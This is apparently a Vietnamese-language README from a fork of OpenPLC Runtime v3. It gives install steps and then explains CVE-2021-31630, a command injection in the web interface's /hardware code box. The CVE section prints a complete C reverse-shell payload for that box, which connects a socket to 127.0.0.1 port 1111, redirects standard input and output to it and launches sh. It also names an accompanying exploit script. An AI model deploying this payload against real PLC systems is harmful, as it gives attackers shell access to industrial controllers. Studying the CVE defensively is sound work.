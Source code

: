 # OpenPLC Runtime version 3

## Giới thiệu
[![Build Status](https://travis-ci.org/tranquac/OpenPLC_v3.svg?branch=master)](https://travis-ci.org/tranquac/OpenPLC_v3)
[![Build status](https://ci.appveyor.com/api/projects/status/ut3466ixwtyf68qg?svg=true)](https://ci.appveyor.com/project/shrmrf/openplc-v3)

OpenPLC là một bộ điều khiển logic lập trình nguồn mở dựa trên phần mềm dễ sử dụng. Trọng tâm của chúng tôi là cung cấp một giải pháp công nghiệp chi phí thấp cho tự động hóa và nghiên cứu. OpenPLC đã được sử dụng trong nhiều bài báo nghiên cứu như một khuôn khổ cho nghiên cứu an ninh mạng công nghiệp, vì đây là bộ điều khiển duy nhất cung cấp toàn bộ mã nguồn. Dự án OpenPLC bao gồm ba dự án phụ:
1. [Runtime](https://github.com/tranquac/OpenPLC_v3)
2. [Programming editor](http://www.openplcproject.com/plcopen-editor)
3. [HMI builder](http://www.openplcproject.com/reference-installing-scadabr)

## Cài đặt
```bash
mkdir /opt/PLC
cd /opt/PLC
git clone https://github.com/tranquac/OpenPLC_v3.git
cd OpenPLC_v3
./install.sh [platform]
```

Where `[platform]` can be:

`win` - Install OpenPLC on Windows over Cygwin

`linux` - Install OpenPLC on a Debian-based Linux distribution

`docker` - Used by the `Dockerfile` (i.e. doesn't invoke `sudo`)

`rpi` - Install OpenPLC on a Raspberry Pi

`custom` - Skip all specific package installation and tries to install OpenPLC assuming your system already has all dependencies met. This option can be useful if you're trying to install OpenPLC on an unsuported Linux platform or had manually installed all the dependency packages before.

## CVE-2021-31630

CVE-2021-31630 là lỗ hổng thuộc dạng **code/command injection** trên WebServer của OpenPLC (phiên bản v3 được community sử dụng rộng). Lỗi nằm ở tính năng cho phép nạp/chỉnh sửa mã ở giao diện /hardware (Hardware Layer Code Box), nơi dữ liệu đầu vào không được lọc/sanitize đầy đủ trước khi được xử lý ở tầng server, dẫn tới khả năng thực thi mã dưới quyền chạy của tiến trình webserver. Lỗ hổng được công khai năm 2021 và có mức độ nghiêm trọng cao trên các cơ sở dữ liệu lỗ hổng công khai.

Mô tả kỹ thuật (mức defensible): giao diện web chấp nhận một đoạn "hardware layer code" do người dùng nhập. Đoạn dữ liệu này sau đó được xử lý bởi các thành phần server có khả năng biên dịch/chuẩn hóa hoặc đưa vào command context mà không thực hiện bước kiểm tra, lọc ký tự đặc biệt, hoặc ràng buộc chặt chẽ. Trong những điều kiện nhất định (ví dụ: dữ liệu được nối vào chuỗi lệnh hệ thống, hoặc truyền thẳng vào hàm xử lý code), kẻ tấn công có thể chèn các đoạn điều khiển gây thay đổi luồng thực thi.

```
#include "ladder.h"
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int ignored_bool_inputs[] = {-1};
int ignored_bool_outputs[] = {-1};
int ignored_int_inputs[] = {-1};
int ignored_int_outputs[] = {-1};

void initCustomLayer(){}

void updateCustomIn(){}

void updateCustomOut()
{
    int port = 1111;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execvp("sh", argv);

    return 0;       
}
```
Code khai thác: cve-2021-31630.py
